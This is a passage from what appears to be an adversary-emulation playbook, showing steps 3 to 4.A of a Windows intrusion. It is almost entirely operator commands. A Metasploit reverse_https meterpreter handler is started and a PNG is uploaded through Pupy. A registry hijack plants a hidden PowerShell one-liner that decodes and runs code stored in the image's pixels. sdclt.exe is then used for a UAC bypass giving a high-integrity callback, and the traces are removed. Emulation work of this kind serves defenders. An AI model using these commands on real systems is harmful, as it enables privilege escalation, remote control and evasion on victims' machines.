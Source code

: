 ### Step 3 - Deploy Stealth Toolkit

#### 3.A
Start Metasploit handler:

[msf] > `handler -H 0.0.0.0 -P 443 -p windows/x64/meterpreter/reverse_https`       

From Pupy, upload monkey.png to target:

[pupy] > `upload "/tmp/monkey.png" "C:\Users\<username>\Downloads\monkey.png"`       
[pupy] > `shell`         
[pupy CMD] > `powershell`         

#### 3.B
[pupy (PowerShell)] > 
```
New-Item -Path HKCU:\Software\Classes -Name Folder -Force;
New-Item -Path HKCU:\Software\Classes\Folder -Name shell -Force;
New-Item -Path HKCU:\Software\Classes\Folder\shell -Name open -Force;
New-Item -Path HKCU:\Software\Classes\Folder\shell\open -Name command -Force;
Set-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "(Default)"
```
**Paste the following 1-liner when prompted for value:**
```
powershell.exe -noni -noexit -ep bypass -window hidden -c "sal a New-Object;Add-Type -AssemblyName 'System.Drawing'; $g=a System.Drawing.Bitmap('C:\Users\username\Downloads\monkey.png');$o=a Byte[] 4480;for($i=0; $i -le 6; $i++){foreach($x in(0..639)){$p=$g.GetPixel($x,$i);$o[$i*640+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G-band15))}};$g.Dispose();IEX([System.Text.Encoding]::ASCII.GetString($o[0..3932]))"
```

[pupy (PowerShell)] > 
```
Set-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "DelegateExecute" -Force
```
      
**When prompted for value, press: [Enter]**       

[pupy (PowerShell)] > `exit`       
[pupy (CMD)] > `%windir%\system32\sdclt.exe`   
[pupy CMD] > `powershell`  

You should receive a high integrity Meterpreter callback.

#### 3.C
[pupy (PowerShell)] > `Remove-Item -Path HKCU:\Software\Classes\Folder* -Recurse -Force`      
[pupy (PowerShell)] > `exit`         
[pupy (CMD)] > `exit`  

### Step 4 - Defense Evasion and Discovery

#### 4.A
From Metasploit:
